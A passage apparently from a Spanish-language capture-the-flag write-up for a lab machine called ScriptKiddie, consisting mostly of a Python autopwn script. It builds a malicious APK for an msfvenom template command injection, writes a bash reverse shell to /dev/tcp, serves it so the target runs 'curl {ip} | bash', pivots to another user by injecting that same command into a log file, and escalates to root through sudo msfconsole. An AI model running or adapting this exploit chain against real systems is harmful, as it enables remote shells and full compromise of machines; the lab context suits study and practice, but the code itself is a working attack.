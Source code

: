 ````'curl 10.10.14.3 | bash'```` hará que la máquina victima me envíe una petición HTTP a mi servidor. Yo estaré corriendo un servidor HTTP de python compartiendo un fichero *index.html* malicioso que contendrá un sentencia en bash, que será una *reverse shell*. El ```| bash``` es para que este código sea interpretado del lado de la máquina y me envíe la consola interactiva. También deberé de estar en escucha por el puerto 443 para recibirla.
    open(empty_file, "w").close()

    ## Create apk_file
    subprocess.check_call(["zip", "-j", apk_file, empty_file])

    ## Generate signing key with malicious -dname
    subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,"-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

    ## Sign APK using our malicious dname
    subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file, "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

def indexcreate():
    f = open("index.html", "w")
    f.write(f"bash -i >& /dev/tcp/{ip}/443 0>&1")
    f.close()

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print ("\nIntroduce tu IP local")
    else:
        ip=sys.argv[1]
        p1 = log.progress("ScriptKiddie autopwn to root user")
        p1.status("msfvenom APK template command injection exploitation (msf 6.0.11)")
        time.sleep(2)
        p1.status("Creando apk malicioso")
        sleep(2)
        apkcreate()
        indexcreate()

        try:
            threading.Thread(target=runHTTPServer, args=()).start()
            try:
                threading.Thread(target=makeRequest, args=()).start()
            except Exception as e:
                log.error(str(e))

            shell = listen(443, timeout=20).wait_for_connection()

            if shell.sock is None:
                p1.failure("Connection couldn't be stablished")
                sys.exit(1)
            else:
                p1.status("Shell gained as 'kid' user")
                sleep(2)
                p1.status("Pivoting to pwn user")
                try: 
                    threading.Thread(target=shell.sendline(f"echo 'x x 127.0.0.1; curl {ip} | bash' > /home/kid/logs/hackers"),args=()).start()
                except Exception as e:
                    log.error(str(e))

                shell = listen(443, timeout=20).wait_for_connection()

                if shell.sock is None:
                    p1.failure("Connection couldn't be stablished")
                    sys.exit(1)
                else:
                    p1.status("Gained shell as pwn")
                    sleep(2)
                    p1.status("Gaining shell as root")
                    shell.sendline(b"sudo /opt/metasploit-framework-6.0.9/msfconsole -x bash")
````